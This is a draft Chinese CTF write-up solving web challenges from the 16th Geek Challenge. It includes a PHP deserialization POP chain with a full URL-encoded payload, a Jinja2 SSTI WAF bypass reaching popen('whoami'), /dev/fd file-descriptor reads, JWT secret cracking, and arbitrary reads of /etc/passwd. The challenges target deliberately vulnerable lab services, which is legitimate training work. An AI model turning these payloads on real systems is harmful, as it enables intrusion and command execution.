---
title: "第十六届极客大挑战wp"
date: 2025-11-01T10:11:32+08:00
summary: "第十六届极客大挑战wp"
url: "/posts/极客大挑战2025wp-web/"
categories:
  - "赛题wp"
tags:
  - "第十六届极客大挑战"
draft: true
---

## 阿基里斯追乌龟

### #前端JS

```tex
在古希腊，英雄阿基里斯和一只乌龟赛跑。阿基里斯的速度是乌龟的十倍。比赛开始时，乌龟在阿基里斯前面100米。芝诺悖论认为，当阿基里斯追到乌龟的出发点时，乌龟已经又向前爬了一段距离。当阿基里斯再追到那个位置时，乌龟又向前爬了。如此无限循环，阿基里斯似乎永远也追不上乌龟。他真的追不上吗？
```

点击追赶后始终还是追赶不上。这种估计是跟前端js有关，我们源码里面看看js的逻辑

```javascript
/**
 * Encodes a JavaScript object to a Base64 string, with UTF-8 support.
 * @param {object} obj The object to encode.
 * @returns {string} The Base64 encoded string.
 */
function encryptData(obj) {
    const jsonString = JSON.stringify(obj);
    return btoa(unescape(encodeURIComponent(jsonString)));
}

/**
 * Decodes a Base64 string to a JavaScript object, with UTF-8 support.
 * @param {string} encodedString The Base64 encoded string.
 * @returns {object} The decoded object.
 */
function decryptData(encodedString) {
    const jsonString = decodeURIComponent(escape(atob(encodedString)));
    return JSON.parse(jsonString);
}
```

首先定义了一个JavaScript 对象转化成base64的加密函数和一个解码base64为JavaScript 对象的解密函数

然后我们看看追赶逻辑

```javascript
document.addEventListener('DOMContentLoaded', () => {
    const chaseBtn = document.getElementById('chase-btn');
    const achillesDistanceSpan = document.getElementById('achilles-distance');
    const tortoiseDistanceSpan = document.getElementById('tortoise-distance');
    const resultDiv = document.getElementById('result');

    let achillesPos = 0;
    let tortoisePos = 10000000000; // Initial head start for the tortoise

    achillesDistanceSpan.textContent = achillesPos.toFixed(2);
    tortoiseDistanceSpan.textContent = tortoisePos.toFixed(2);

    chaseBtn.addEventListener('click', () => {
        // Achilles moves to the tortoise's current position
        const achillesMoveDistance = tortoisePos - achillesPos;
        achillesPos = tortoisePos;

        // The tortoise moves 1/10th of the distance Achilles just covered
        const tortoiseMoveDistance = achillesMoveDistance / 10;
        tortoisePos += tortoiseMoveDistance;

        achillesDistanceSpan.textContent = achillesPos.toFixed(2);
        tortoiseDistanceSpan.textContent = tortoisePos.toFixed(2);

        
```

achillesMoveDistance是阿基里斯需要移动的距离，并让阿基里斯移动到乌龟当前位置，乌龟向前前进阿基里斯需要移动的距离的十分之一，最后保留两位小数

其实这里存在一个浮点数问题，也就是当我们多次点击追赶后浮点精度会让距离趋近于 0，但点出来是一个假的flag

继续往下看发送请求逻辑

```javascript
const payload = {
    achilles_distance: achillesPos,
    tortoise_distance: tortoisePos,
};
fetch('/chase', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
    },
    body: JSON.stringify({ "data": encryptData(payload) }),
})
.then(response => response.json())
.then(encryptedResponse => {
    if (encryptedResponse.data) {
        const data = decryptData(encryptedResponse.data);
        if (data.flag) {
            // Use 'pre-wrap' to respect newlines in the fake flag message
            resultDiv.style.whiteSpace = 'pre-wrap';
            resultDiv.textContent = `你追上它了！\n${data.flag}`;
            chaseBtn.disabled = true;
        } else if (data.message) {
            resultDiv.textContent = data.message;
        }
    } else {
        console.error('Error:', encryptedResponse.error);
        resultDiv.textContent = `发生错误: ${encryptedResponse.error}`;
    }
})
.catch(error => {
    console.error('Error:', error);
    resultDiv.textContent = '发生错误。';
});
```

可以看到这里能向/chase路由发包，请求body就是JSON格式的data，包括乌龟和阿基里斯移动的距离进行加密后的base64编码

我们构造一下data

```javascript
function encryptData(obj) {
    const jsonString = JSON.stringify(obj);
    return btoa(unescape(encodeURIComponent(jsonString)));
}

const payload = {
    achilles_distance: 1000000000,
    tortoise_distance: 1,
};
console.log(JSON.stringify({ "data": encryptData(payload) }));
```



或者浏览器控制台发送请求



## Vibe SEO

### #进程读取+文件描述符

```tex
"我让 AI 帮我做了搜索引擎优化，它好像说什么『搜索引擎喜欢结构化的站点地图』，虽然不是很懂就是了"
```

扫目录找到一个`/sitemap.xml`

```xml
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
<url>
<loc>http://localhost/</loc>
<changefreq>weekly</changefreq>
</url>
<url>
<loc>http://localhost/aa__^^.php</loc>
<changefreq>never</changefreq>
</url>
</urlset>
```

找到一个路由`/aa__^^.php`，访问一下



需要一个参数filename，并且是readfile函数

测试之后发现还限制字符长度不能大于11，先读一下当前页面的代码

```php

<?php
$flag = fopen('/my_secret.txt', 'r');
if (strlen($_GET['filename']) < 11) {
  readfile($_GET['filename']);
} else {
  echo "Filename too long";
}

```

关注到有用**fopen()**函数去打开/my_secret.txt文件，此时会返回一个文件句柄，文件句柄对应一个**文件描述符**，会保存在Linux内核的进程文件描述符表中

讲清楚几个概念

- `/proc/[PID]/fd/`是用于展示Linux中进程`[PID]`当前打开的所有文件标识符(fd)
- `/proc/self/fd/`表示当前进程self自己打开的所有文件标识符(fd)
- `/dev/fd`会指向 `/proc/self/fd/`，`/dev/fd/N` 等价于 `/proc/self/fd/N`。

fd是文件描述符，在 Linux / Unix 系统中，一切（文件、网络连接、管道、终端等）都被抽象成“文件”。而fd就是操作系统为进程打开的每个文件分配的一个**整数编号**，也可以理解为文件句柄。

3 个最常见的 fd：

| fd 编号 | 名称     | 含义         | 示例                    |
| ------- | -------- | ------------ | ----------------------- |
| 0       | `stdin`  | 标准输入     | 键盘输入、HTTP 请求体等 |
| 1       | `stdout` | 标准输出     | 屏幕输出、网页响应等    |
| 2       | `stderr` | 标准错误输出 | 错误信息、日志等        |

所以我们可以通过`/dev/fd/[n]`的方式访问当前进程的某个fd表

最后在第13个fd中找到flag

```http
/aa__%5E%5E.php?filename=/dev/fd/13
```

## Xross The Finish Line

一个留言板，但是好像挺多标签都被过滤了

## Expression

### #EJS模板注入

```tex
这个程序员偷懒直接复制粘贴网上的代码连 JWT 密钥都不改..？
```

注册后拿到jwt，用flask-unsign进行解码发现解码不出来，换jwtcracker试试https://sxz-oi.github.io/2022/06/07/c-jwt-cracker/

直接用jwtcracker爆破



最后拿到key是secret



然后伪造一下admin，不过发现没啥用，发现有回显位置欢迎，admin!，猜测是ssti，后面试了一下发现是EJS模板注入

## popself

### #php反序列化

```php
<?php
show_source(__FILE__);

error_reporting(0);
class All_in_one
{
    public $KiraKiraAyu;
    public $_4ak5ra;
    public $K4per;
    public $Samsāra;
    public $komiko;
    public $Fox;
    public $Eureka;
    public $QYQS;
    public $sleep3r;
    public $ivory;
    public $L;

    public function __set($name, $value){
        echo "他还是没有忘记那个".$value."<br>";
        echo "收集夏日的碎片吧<br>";

        $fox = $this->Fox;

        if ( !($fox instanceof All_in_one) && $fox()==="summer"){
            echo "QYQS enjoy summer<br>";
            echo "开启循环吧<br>";
            $komiko = $this->komiko;
            $komiko->Eureka($this->L, $this->sleep3r);
        }
    }

    public function __invoke(){
        echo "恭喜成功signin!<br>";
        echo "welcome to Geek_Challenge2025!<br>";
        $f = $this->Samsāra;
        $arg = $this->ivory;
        $f($arg);
    }
    public function __destruct(){

        echo "你能让K4per和KiraKiraAyu组成一队吗<br>";

        if (is_string($this->KiraKiraAyu) && is_string($this->K4per)) {
            if (md5(md5($this->KiraKiraAyu))===md5($this->K4per)){
                die("boys和而不同<br>");
            }

            if(md5(md5($this->KiraKiraAyu))==md5($this->K4per)){
                echo "BOY♂ sign GEEK<br>";
                echo "开启循环吧<br>";
                $this->QYQS->partner = "summer";
            }
            else {
                echo "BOY♂ can`t sign GEEK<br>";
                echo md5(md5($this->KiraKiraAyu))."<br>";
                echo md5($this->K4per)."<br>";
            }
        }
        else{
            die("boys堂堂正正");
        }
    }

    public function __tostring(){
        echo "再走一步...<br>";
        $a = $this->_4ak5ra;
        $a();
    }

    public function __call($method, $args){        
        if (strlen($args[0])<4 && ($args[0]+1)>10000){
            echo "再走一步<br>";
            echo $args[1];
        }
        else{
            echo "你要努力进窄门<br>";
        }
    }
}

class summer {
    public static function find_myself(){
        return "summer";
    }
}
$payload = $_GET["24_SYC.zip"];

if (isset($payload)) {
    unserialize($payload);
} else {
    echo "没有大家的压缩包的话，瓦达西！<br>";
}

?> 没有大家的压缩包的话，瓦达西！

```

还是一样先找链子，大致看了一下链子应该是在

```php
__destruct()->__set()->__call()->__tostring()->__invoke()
```

先看`__destruct()`的部分

```php
    public function __destruct(){

        echo "你能让K4per和KiraKiraAyu组成一队吗<br>";

        if (is_string($this->KiraKiraAyu) && is_string($this->K4per)) {
            if (md5(md5($this->KiraKiraAyu))===md5($this->K4per)){
                die("boys和而不同<br>");
            }

            if(md5(md5($this->KiraKiraAyu))==md5($this->K4per)){
                echo "BOY♂ sign GEEK<br>";
                echo "开启循环吧<br>";
                $this->QYQS->partner = "summer";
            }
            else {
                echo "BOY♂ can`t sign GEEK<br>";
                echo md5(md5($this->KiraKiraAyu))."<br>";
                echo md5($this->K4per)."<br>";
            }
        }
        else{
            die("boys堂堂正正");
        }
    }
```

需要让KiraKiraAyu两次md5后弱等于K4per一次md5的值，这里的话就不能直接用同一个字符串的一次md5值作为K4per了，但是还是很好找的

```php
<?php
$KiraKiraAyu = "0e1138100474";
$K4per = "QLTHNDT";
echo md5(md5($KiraKiraAyu))."\n";
echo md5($K4per)."\n";
if (is_string($KiraKiraAyu) && is_string($K4per)) {
    if (md5(md5($KiraKiraAyu))===md5($K4per)){
        die("boys和而不同<br>");
    }

    if(md5(md5($KiraKiraAyu))==md5($K4per)){
        echo "BOY♂ sign GEEK<br>";
        echo "开启循环吧<br>";
    }
    else {
        echo "BOY♂ can`t sign GEEK<br>";
        echo md5(md5($KiraKiraAyu))."<br>";
        echo md5($K4per)."<br>";
    }
}
else{
    die("boys堂堂正正");
}
/*
 * 0e779212254407018184727546255414
 * 0e405967825401955372549139051580
 * BOY♂ sign GEEK<br>开启循环吧<br>
 * */
```

`$this->QYQS->partner = "summer";`的话会触发`__set()`，设置QYQS值为一个新的All_in_one实例对象就行

然后我们来到`__set()`中

```php
    public function __set($name, $value){
        echo "他还是没有忘记那个".$value."<br>";
        echo "收集夏日的碎片吧<br>";

        $fox = $this->Fox;

        if ( !($fox instanceof All_in_one) && $fox()==="summer"){
            echo "QYQS enjoy summer<br>";
            echo "开启循环吧<br>";
            $komiko = $this->komiko;
            $komiko->Eureka($this->L, $this->sleep3r);
        }
    }
```

要求Fox不能是All_in_one实例对象但是需要调用之后返回值为summer

注意到一个额外的类

```php
class summer {
    public static function find_myself(){
        return "summer";
    }
}
```

那我们用数组函数调用的方式

```php
$b -> Fox = array("summer","find_myself");
```

这样就能调用到find_myself函数了

然后`$komiko->Eureka($this->L, $this->sleep3r);`会触发`__call`函数，那我们需要赋值komiko为一个新的All_in_one实例对象并设置参数

args数组就是我们传入的参数，这里的话有两个值`$this->L`和`$this->sleep3r`

```php
    public function __call($method, $args){
        if (strlen($args[0])<4 && ($args[0]+1)>10000){
            echo "再走一步<br>";
            echo $args[1];
        }
        else{
            echo "你要努力进窄门<br>";
        }
    }
```

长度小于4并且+1后大于10000，可以用科学计数法，php在进行运算的时候字符串会做数字转换，用1e4就行

然后用`echo $args[1];`触发`__toString`，设置为一个新的All_in_one实例对象就行

需要注意的是`$komiko->Eureka($this->L, $this->sleep3r);`这里的`L`和`sleep3r`指的是当前实例的，而不是我们新的All_in_one实例对象

继续看`__tostring`

```php
    public function __tostring(){
        echo "再走一步...<br>";
        $a = $this->_4ak5ra;
        $a();
    }
```

这个很简单，触发`__invoke()`，设置_4ak5ra为一个新的All_in_one实例对象

```php
    public function __invoke(){
        echo "恭喜成功signin!<br>";
        echo "welcome to Geek_Challenge2025!<br>";
        $f = $this->Samsāra;
        $arg = $this->ivory;
        $f($arg);
    }
```

动态函数调用，测试一下`phpinfo(1)`

最终给出poc并本地测试

```php
<?php
class All_in_one
{
    public $KiraKiraAyu;
    public $_4ak5ra;
    public $K4per;
    public $Samsāra;
    public $komiko;
    public $Fox;
    public $Eureka;
    public $QYQS;
    public $sleep3r;
    public $ivory;
    public $L;
}

class summer {
    public static function find_myself(){
        return "summer";
    }
}
$e = new All_in_one();
$e -> Samsāra = "phpinfo";
$e -> ivory = "1";

$d = new All_in_one();
$d -> _4ak5ra = $e;

$c = new All_in_one();


$b = new All_in_one();
$b -> Fox = array("summer","find_myself");
$b -> L = "1e4";
$b -> sleep3r = $d;
$b -> komiko = $c;

$a = new All_in_one();
$a -> KiraKiraAyu ="0e1138100474";
$a -> K4per = "QLTHNDT";
$a -> QYQS = $b;

```


没毛，序列化后url编码一下传进去

变量是非法变量，绕过一下就行

```php
?24[SYC.zip=O%3A10%3A%22All_in_one%22%3A11%3A%7Bs%3A11%3A%22KiraKiraAyu%22%3Bs%3A12%3A%220e1138100474%22%3Bs%3A7%3A%22_4ak5ra%22%3BN%3Bs%3A5%3A%22K4per%22%3Bs%3A7%3A%22QLTHNDT%22%3Bs%3A8%3A%22Sams%C4%81ra%22%3BN%3Bs%3A6%3A%22komiko%22%3BN%3Bs%3A3%3A%22Fox%22%3BN%3Bs%3A6%3A%22Eureka%22%3BN%3Bs%3A4%3A%22QYQS%22%3BO%3A10%3A%22All_in_one%22%3A11%3A%7Bs%3A11%3A%22KiraKiraAyu%22%3BN%3Bs%3A7%3A%22_4ak5ra%22%3BN%3Bs%3A5%3A%22K4per%22%3BN%3Bs%3A8%3A%22Sams%C4%81ra%22%3BN%3Bs%3A6%3A%22komiko%22%3BO%3A10%3A%22All_in_one%22%3A11%3A%7Bs%3A11%3A%22KiraKiraAyu%22%3BN%3Bs%3A7%3A%22_4ak5ra%22%3BN%3Bs%3A5%3A%22K4per%22%3BN%3Bs%3A8%3A%22Sams%C4%81ra%22%3BN%3Bs%3A6%3A%22komiko%22%3BN%3Bs%3A3%3A%22Fox%22%3BN%3Bs%3A6%3A%22Eureka%22%3BN%3Bs%3A4%3A%22QYQS%22%3BN%3Bs%3A7%3A%22sleep3r%22%3BN%3Bs%3A5%3A%22ivory%22%3BN%3Bs%3A1%3A%22L%22%3BN%3B%7Ds%3A3%3A%22Fox%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22summer%22%3Bi%3A1%3Bs%3A11%3A%22find_myself%22%3B%7Ds%3A6%3A%22Eureka%22%3BN%3Bs%3A4%3A%22QYQS%22%3BN%3Bs%3A7%3A%22sleep3r%22%3BO%3A10%3A%22All_in_one%22%3A11%3A%7Bs%3A11%3A%22KiraKiraAyu%22%3BN%3Bs%3A7%3A%22_4ak5ra%22%3BO%3A10%3A%22All_in_one%22%3A11%3A%7Bs%3A11%3A%22KiraKiraAyu%22%3BN%3Bs%3A7%3A%22_4ak5ra%22%3BN%3Bs%3A5%3A%22K4per%22%3BN%3Bs%3A8%3A%22Sams%C4%81ra%22%3Bs%3A7%3A%22phpinfo%22%3Bs%3A6%3A%22komiko%22%3BN%3Bs%3A3%3A%22Fox%22%3BN%3Bs%3A6%3A%22Eureka%22%3BN%3Bs%3A4%3A%22QYQS%22%3BN%3Bs%3A7%3A%22sleep3r%22%3BN%3Bs%3A5%3A%22ivory%22%3Bs%3A1%3A%221%22%3Bs%3A1%3A%22L%22%3BN%3B%7Ds%3A5%3A%22K4per%22%3BN%3Bs%3A8%3A%22Sams%C4%81ra%22%3BN%3Bs%3A6%3A%22komiko%22%3BN%3Bs%3A3%3A%22Fox%22%3BN%3Bs%3A6%3A%22Eureka%22%3BN%3Bs%3A4%3A%22QYQS%22%3BN%3Bs%3A7%3A%22sleep3r%22%3BN%3Bs%3A5%3A%22ivory%22%3BN%3Bs%3A1%3A%22L%22%3BN%3B%7Ds%3A5%3A%22ivory%22%3BN%3Bs%3A1%3A%22L%22%3Bs%3A3%3A%221e4%22%3B%7Ds%3A7%3A%22sleep3r%22%3BN%3Bs%3A5%3A%22ivory%22%3BN%3Bs%3A1%3A%22L%22%3BN%3B%7D
```



## one_last_image

随便传了一个jpg后缀的空文件，发现返回报错

```python
Error during image processing: cannot identify image file '/var/www/html/uploads/08b799dc-841c-4331-9f2e-3765e96eea14.jpg' Traceback (most recent call last): File "/var/www/html/one_last_image.py", line 140, in main draw_colorful(color_size=color_size,input_path=input_path,output_path=output_path,mode=dark_mode) ~~~~~~~~~~~~~^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ File "/var/www/html/one_last_image.py", line 98, in draw_colorful draw_list = get_image_line(color_size, input_path) File "/var/www/html/one_last_image.py", line 61, in get_image_line im_raw = Image.open(file) File "/usr/local/lib/python3.13/dist-packages/PIL/Image.py", line 3560, in open raise UnidentifiedImageError(msg) PIL.UnidentifiedImageError: cannot identify image file '/var/www/html/uploads/08b799dc-841c-4331-9f2e-3765e96eea14.jpg'
```

分析这个报错可以知道在get_image_line函数中尝试用`Image.open`函数打开图像文件但是在Pillow库中抛出一个报错，意思是无法识别图片的格式，所以估计是需要打图片马？

试一下


## ez_read

### #任意文件读取+SSTI+SUID提权

存在任意文件读取，直接传/etc/passwd能读取到信息

```html
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin _apt:x:42:65534::/nonexistent:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin ctf:x:1000:1000::/opt/___web_very_strange_42___:/bin/sh
```

重点看最后一行ctf用户的主目录在`/opt/___web_very_strange_42___`，那我们尝试读一下`/opt/___web_very_strange_42___/app.py`

```python
from flask import Flask, request, render_template, render_template_string, redirect, url_for, session
import os

app = Flask(__name__, template_folder="templates", static_folder="static")
app.secret_key = "key_ciallo_secret"

USERS = {}


def waf(payload: str) -> str:
    print(len(payload))
    if not payload:
        return ""
        
    if len(payload) not in (114, 514):
        return payload.replace("(", "")
    else:
        waf = ["__class__", "__base__", "__subclasses__", "__globals__", "import","self","session","blueprints","get_debug_flag","json","get_template_attribute","render_template","render_template_string","abort","redirect","make_response","Response","stream_with_context","flash","escape","Markup","MarkupSafe","tojson","datetime","cycler","joiner","namespace","lipsum"]
        for w in waf:
            if w in payload:
                raise ValueError(f"waf")

    return payload


@app.route("/")
def index():
    user = session.get("user")
    return render_template("index.html", user=user)


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        username = (request.form.get("username") or "")
        password = request.form.get("password") or ""
        if not username or not password:
            return render_template("register.html", error="用户名和密码不能为空")
        if username in USERS:
            return render_template("register.html", error="用户名已存在")
        USERS[username] = {"password": password}
        session["user"] = username
        return redirect(url_for("profile"))
    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = (request.form.get("username") or "").strip()
        password = request.form.get("password") or ""
        user = USERS.get(username)
        if not user or user.get("password") != password:
            return render_template("login.html", error="用户名或密码错误")
        session["user"] = username
        return redirect(url_for("profile"))
    return render_template("login.html")


@app.route("/logout")
def logout():
    session.clear()
    return redirect(url_for("index"))


@app.route("/profile")
def profile():
    user = session.get("user")
    if not user:
        return redirect(url_for("login"))
    name_raw = request.args.get("name", user)
    
    try:
        filtered = waf(name_raw)
        tmpl = f"欢迎，{filtered}"
        rendered_snippet = render_template_string(tmpl)
        error_msg = None
    except Exception as e:
        rendered_snippet = ""
        error_msg = f"渲染错误: {e}"
    return render_template(
        "profile.html",
        content=rendered_snippet,
        name_input=name_raw,
        user=user,
        error_msg=error_msg,
    )


@app.route("/read", methods=["GET", "POST"])
def read_file():
    user = session.get("user")
    if not user:
        return redirect(url_for("login"))

    base_dir = os.path.join(os.path.dirname(__file__), "story")
    try:
        entries = sorted([f for f in os.listdir(base_dir) if os.path.isfile(os.path.join(base_dir, f))])
    except FileNotFoundError:
        entries = []

    filename = ""
    if request.method == "POST":
        filename = request.form.get("filename") or ""
    else:
        filename = request.args.get("filename") or ""

    content = None
    error = None

    if filename:
        sanitized = filename.replace("../", "")
        target_path = os.path.join(base_dir, sanitized)
        if not os.path.isfile(target_path):
            error = f"文件不存在: {sanitized}"
        else:
            with open(target_path, "r", encoding="utf-8", errors="ignore") as f:
                content = f.read()

    return render_template("read.html", files=entries, content=content, filename=filename, error=error, user=user)


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=False)
```

在/profile路由下很快能发现有一个ssti

看一下waf

```python
def waf(payload: str) -> str:
    print(len(payload))
    if not payload:
        return ""

    if len(payload) not in (114, 514):
        return payload.replace("(", "")
    else:
        waf = ["__class__", "__base__", "__subclasses__", "__globals__", "import", "self", "session", "blueprints",
               "get_debug_flag", "json", "get_template_attribute", "render_template", "render_template_string", "abort",
               "redirect", "make_response", "Response", "stream_with_context", "flash", "escape", "Markup",
               "MarkupSafe", "tojson", "datetime", "cycler", "joiner", "namespace", "lipsum"]
        for w in waf:
            if w in payload:
                raise ValueError(f"waf")

    return payload
```

可以注意到，当payload长度不是114或514之间的时候，就会把括号替换为空，但是绕过括号显然是不可能的，所以我们需要用字符去填充我们的payload让长度在114或514

都是整块的关键字过滤，用字符串拼接

```python
{{""['__cla'++'ss__']}}
```

给个poc

```python
payload = "{{\"\"['__cla'++'ss__']['__bas'+'e__']['__subclas'+'ses__']()[142]['__in'+'it__']['__glob'+'als__']['popen']('whoami').read()}}"
if len(payload) not in (114, 514):
    if len(payload) < 114:
        number = 114-len(payload)
        payload = payload + number*"1"
    elif len(payload) < 514:
        number = 514-len(payload)
        payload = payload + number*"1"
print(payload)
print(len(payload))
```



但是好像读不出flag，需要root权限，先看看suid位文件

